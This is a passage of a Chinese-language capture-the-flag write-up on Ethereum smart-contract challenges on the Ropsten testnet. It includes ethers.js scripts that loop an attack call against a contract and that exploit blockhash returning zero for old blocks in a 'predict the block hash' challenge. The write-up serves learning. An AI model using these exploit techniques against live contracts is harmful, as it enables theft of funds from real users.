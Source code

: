 javascript调用如下

```javascript
require('dotenv').config()
const ethers = require('ethers')

async function main(){
    const provider = new ethers.providers.JsonRpcProvider("https://ropsten.infura.io/v3/xxxxx")
    const wallet = new ethers.Wallet(process.env.PK,provider)
    const tx = {
        to: "0x42Eb4a7a57db35D1b96A76b63Abfc38C1310d74d",
        gasLimit: 2000000,
        data: "0x9e5faafc", // attack的16进制调用代码
    }
    while (true) {
        const hash = await wallet.sendTransaction(tx)
        await hash.wait()
        console.log("Send TX Hash",hash.hash)
        const balance = await provider.getBalance("0x3e26732239e736Ee998B00Ed35f81C7B6DC8c1CE")
        const balance_eth = ethers.utils.formatEther(balance)
        if (balance_eth == "2.0"){
            console.log("Balance",balance_eth)
        }else{
            break
        }
    }
}

main()
```

---

###### Predict the block hash

这个题的要求在于, `LockInGuess`这个function 在运行的时候, 需要传参数`bytes32 hash`.这串hash 则是作为了 `guess`, 的值. 

同时 也会设定 `settlementBlockNumber` 等于当前区块+1,  然后去运行一下 `settle` 函数, 这里会计算一个answer, 但是这个answer 是根据 `settlementBlockNumber`来算的, 因此 当我们在运行`LockInGuess`的时候, 就会把一切需要的变量设定好. 

**核心在于 你输入的hash 需要是下个区块的 区块哈希, 即 你需要预测 未来的区块哈希, 从理论上来讲, 不可能** :apple: 

因此, 需要找找bug点, 这个点则是 **block.blockhash** 这个函数, 理论上来说, 是可以获得给定区块号的hash值, 但是 他只能支持最近的256个块[不包含当前区块], 对于256个区块之前的函数会返回0. 所以 解题办法是: **将 `lockInGuess` 传参数hash 是0 , 然后256个区块之后, 来调用一下settle函数即可.**, 由于合约没有验证开源, 因此ethers发送tx

```javascript
const ethers = require('ethers')
async function main(){
    const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
    const wallet = new ethers.Wallet(process.env.PK,provider)
    let ABINeed = ["function lockInGuess(bytes32 hash)"];
    let ifaceNeed = new ethers.utils.Interface(ABINeed)
    const para_hash = ethers.utils.formatBytes32String(0)
    const endNeed = ifaceNeed.encodeFunctionData("lockInGuess", [ para_hash ])
    const tx = {
        to: "0xBD9857b4BcF9Eb63801898ED844541b0a94927f8",
        gasLimit: 2000000,
        value: ethers.utils.parseEther("1"),
        data: endNeed,
    }
    const hash = await wallet.sendTransaction(tx)
    await hash.wait()
    console.log("Send TX Hash",hash.hash)
}
main()
```
